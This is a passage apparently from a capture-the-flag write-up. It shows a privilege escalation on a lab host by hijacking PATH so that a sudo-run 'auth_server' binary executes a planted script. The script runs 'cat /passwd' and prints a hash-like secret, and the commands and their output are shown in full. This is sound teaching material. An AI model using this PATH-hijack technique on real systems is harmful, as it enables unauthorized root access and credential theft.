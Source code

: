 Checking this for jetta and sudo:

```bash
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Nice, we can then use this to read the content of the `/passwd` file:

```bash
#!/usr/bin/bash
cat /passwd
```

Result:

```bash
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 __________________________________
< b67def6bcb2112a963a3ade37773650e >
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
